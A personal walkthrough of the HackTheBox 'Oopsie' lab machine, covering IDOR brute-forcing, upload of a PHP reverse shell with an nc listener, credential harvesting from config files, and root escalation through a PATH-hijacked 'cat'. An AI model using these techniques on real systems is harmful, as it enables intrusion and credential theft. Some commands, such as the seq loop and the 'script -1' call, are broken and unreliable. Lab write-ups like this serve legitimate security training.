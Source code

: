 ## Oopsie

1. Enumerate Host:
   
   - `nmap -sC -sV -Pn 10.10.10.28`
   
   - Open ports are 22 & 80
   
   - Port 22 is usually for SSH
   
   - Port 80 is for HTTP, means there's a webserver running on the website! Let's go check it out

2. Website says `login` to access services, so maybe perhaps there is some sort of login page?

3. Use burpsuite to crawl website for clues
   
   - We observe a `/cdn-cgi/login/script.js`, this may indicate that there is a login page with the following path
   
   - When we try accessing that route, we get the login page
   
   - Access credentials using the credentials we obtained from our previous box (there must be another way)

4. When using burpsuite, make sure that:
   
   - intercept mode is `on` so you can control the flow of requests
   
   - ensure proxy is pointing to `127.0.0.1:8080`
   
   - To do webcrawling/generate sitemap, can also use tools like
   
      1. Gobuster
     
      2. Dirbuster
     
      3. Dirsearch
     
      4. Manually inspect element on the site and look at script tags, style tags, hrefs etc. (but very labour intensive)

5. Once we are logged in, we observe that there are certain functions that we can/cannot perform (such as uploads) and there are different levels of privileges (e.g. admin, super admin)

   1. Click on accounts

   2. Observing what Burp has intercepted

   3. Use `intruder` mode on burp suite and try to brute force the `id` parameter via the following bash script

      `for i in 'seq 1 1000;' do echo $1; done`

   4. PASTE the output into the Payloads box
   
   5. Start attack!
   
   6. Investigate the lengths which are different
   
   7. Use the userid of the super user
   
      - Parameter tampering can also be tested here, after clicking on the `accounts` tab, you can tinker around with the `id` parameter in the url
      
      - if you directly set the `id` to 30, you can immediately pull the values of the super user

6. Access & upload reverse shell
   
   - Always change the `user` param to the super user's (86575) when forwarding the requests!
   
      - If you do not do this it will not work!
   
   - for parrot OS, there is a default reverse shell in `/usr/share/webshells/php/php-reverse-shell.php`
   
   - for kali linux, you can try http://pentestmonkey.net/tools/web-shells/php-reverse-shell
   
      - Change $ip to tun0 ip
     
      - Change $port to whatever port you want

7. Finding where the reverse shell has been uploaded to!

   ```
   locate dirbuster
   gobuster dir -u http://10.10.10.28 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
   ```

8. Connect to the shell!
   
   - `sudo ufw allow from 10.10.10.28 to any port 10666`
   
   - run `nc -v -n -l -p 10666`
   
   - Use browser to make GET request or use curl command to make GET request to trigger reverse shell
     
      - if you encounter `resource not found`, it means the shell you originally uploaded got somehow removed lol. Ensure that the uploading of the shell, listening on nc, and connecting back to the shell is seamless!
     
      - Also, don't close the browser, if you close it, you will lose connection to your shell
   
   - Make sure to add firewall rules on ufw...
   
      - [ufw - firewall management tool on linux](https://en.wikipedia.org/wiki/Uncomplicated_Firewall)
     
      - [ufw rules](https://www.reddit.com/r/tryhackme/comments/m55bp3/cant_reverse_shell_using_ncap/#ufw)
     
      - [telnet to check for connections](https://netbeez.net/blog/telnet-to-test-connectivity-to-tcp/)
     
      - [kali linux firewall](https://www.hacknos.com/what-is-the-firewall/)
      
9. Navigate to `/home/robert` directory and get user flag

10. Upgrade shell `SHELL=/bin/bash script -1 /dev/null`

11. Lateral Movement:

    ```bash
    ls /var/www/html/cdn-cgi/login
    cat /var/www/html/cdn-cgi/login/db.php
    ```

    Output: 

    ```php
    <?php
    $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
    ?>
    ```

12. Privilege Escalation using Robert credentials

    - su using robert and the password
    
    - also can try ssh robert@10.10.10.28

13. Robert does not seem to have root privileges 

    -  Attempts to browse to the root folder or to use sudo confirm robert doesn’t have high levels of privilege.

14. run `id` and see that robert belongs to group `bugtracker`

15. run `locate bugtracker`

    ```
    /usr/bin/bugtracker
    ```

16. run `/usr/bin/bugtracker`

    - turns out to be some tool to print out details of bugs by id
    
17. Try to read contents of program
    
    - if `cat` command not working, try `strings`
    
    - https://www.lifewire.com/strings-linux-command-4093452
    
    - `strings /usr/bin/bugtracker`

18. We realise that bugtracker uses `cat`, hence lets try to misconfigure `cat` to execute a malicious binary

    ```
    export PATH=/tmp:$PATH
    cd /tmp
    echo '/bin/bash' > cat
    chmod +x cat
    ```

    [What is $PATH? Click here!](https://medium.com/@jalendport/what-exactly-is-your-shell-path-2f076f02deb4) Basically, when you run bugtracker after running the above commands, it will execute /bin/bash as well, which runs a bash shell with root privileges

19. Find root flag

20. Post exploitation:

    ```bash
    cd /root/.config/filezilla
    more filezilla.xml
    ```

    Output (FTP credentials in plaintext):

    ```
    <?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
    <FileZilla3>
        <RecentServers>
            <Server>
                <Host>10.10.10.44</Host>
                <Port>21</Port>
                <Protocol>0</Protocol>
                <Type>0</Type>
                <User>ftpuser</User>
                <Pass>mc@F1l3ZilL4</Pass>
                <Logontype>1</Logontype>
                <TimezoneOffset>0</TimezoneOffset>
                <PasvMode>MODE_DEFAULT</PasvMode>
                <MaximumMultipleConnections>0</MaximumMultipleConnections>
                <EncodingType>Auto</EncodingType>
                <BypassProxy>0</BypassProxy>
            </Server>
        </RecentServers>
    </FileZilla3>
    ```

https://www.shells.com/l/en-US/tutorial/How-to-Fix-Shell-Script-Permission-Denied-Error-in-Linux

https://opensource.com/article/17/6/set-path-linux

https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d

